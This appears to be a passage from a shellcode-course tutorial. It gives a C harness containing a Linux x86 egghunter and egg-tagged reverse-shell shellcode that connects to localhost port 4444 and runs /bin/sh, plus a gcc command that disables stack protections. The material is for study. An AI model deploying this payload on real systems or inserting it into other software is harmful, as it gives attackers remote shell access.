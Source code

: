 ```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define EGG "\x50\x90\x50\x90"

unsigned char egghunter[] = \
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x50\x90\x50\x90\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";


unsigned char shellcode[] = \
EGG
EGG
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x31\xff\x89\xc7\x31\xc0\xb0\x66\x31\xc9\xb9\x80\x1\x1\x2\x81\xe9\x01\x01\x01\x01\x51\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\x43\xcd\x80\x31\xc9\xb1\x02\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xcd\x80";


main()
{
    int shellcode_len = strlen(shellcode);
    printf("Egghunter Length:  %d\n", strlen(egghunter));
    printf("Shellcode Length:  %d\n", shellcode_len);

    // Create a buffer to place our shellcode
    char *badbuffer;
    badbuffer=malloc(shellcode_len);
    memcpy(badbuffer,shellcode,shellcode_len);

	int (*ret)() = (int(*)())egghunter;
	ret();

    free(badbuffer);

}
```

Once that's done we're going to need to compile it:
```
root@ubuntu:/mnt/hgfs/assembly/exam/2-Assignment/# gcc -fno-stack-protector -z execstack testingShellcode.c -o testingShellcode
```

And we're done!

## Testing our egghunter

To test our egghunter open a new terminal and enter the following command.

This shell command will open a TCP socket connection on the specified port.
